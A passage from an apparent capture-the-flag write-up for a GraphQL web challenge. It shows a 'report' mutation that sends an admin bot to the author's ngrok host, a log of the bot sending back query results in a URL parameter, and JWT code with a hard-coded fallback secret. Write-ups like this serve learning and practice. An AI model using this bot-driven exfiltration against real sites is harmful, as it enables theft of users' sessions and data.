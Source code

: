 > Note: Anyone can view users' profile.

**GrahpQL `report` payload:**
```json
{ "query": "mutation { report(url: \"https://987a-123-203-183-20.ngrok-free.app/user/bd349a2a-5040-433e-be47-d1b5a84edb2f\") }" }
```

However, it didn't retrieve the flag...

```
client_1    | 172.21.0.1 - - [15/Apr/2023:14:43:54 +0000] "GET /?d={%22errors%22:[{%22message%22:%22Not%20logged%20in%22,%22locations%22:[{%22line%22:1,%22column%22:12}],%22path%22:[%22flag%22],%22extensions%22:{%22code%22:%22INTERNAL_SERVER_ERROR%22}}],%22data%22:{%22flag%22:null}} HTTP/1.1" 200 366 "https://987a-{Redacted}.ngrok-free.app/user/bd349a2a-5040-433e-be47-d1b5a84edb2f" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/112.0.5615.49 Safari/537.36" "{Redacted}"
```

Why it's not logged in?

**After taking a break, my teammate told me that the JWT is stored in `localStorage`!**

**`client/src/views/Login/LoginPanel.tsx`:**
```ts
[...]
const result = await login();
if (result.data?.login !== undefined) {
    localStorage.setItem("token", result.data.login);
    navigate("/");
    await client.resetStore();
}
[...]
```

**`server/src/jwt.mts`:**
```ts
import * as jwt from "jsonwebtoken";
import { z } from "zod";

const secret = process.env["JWT_SECRET"] ?? "secret";
const algorithm = "HS256";

const PayloadSchema = z.object({
	exp: z.number(),
	sub: z.string()
});

export function generateUserToken(id: string) {
	return jwt.sign({
		exp: Math.floor(Date.now() / 1000) + (60 * 60),
		sub: id
	}, secret, {
		algorithm
	});
}

export function verifyUserToken(token: string) {
	const result = jwt.verify(token, secret, {
		algorithms: [algorithm]
	});

	const payload = PayloadSchema.parse(result);

	return payload.sub;
}
```
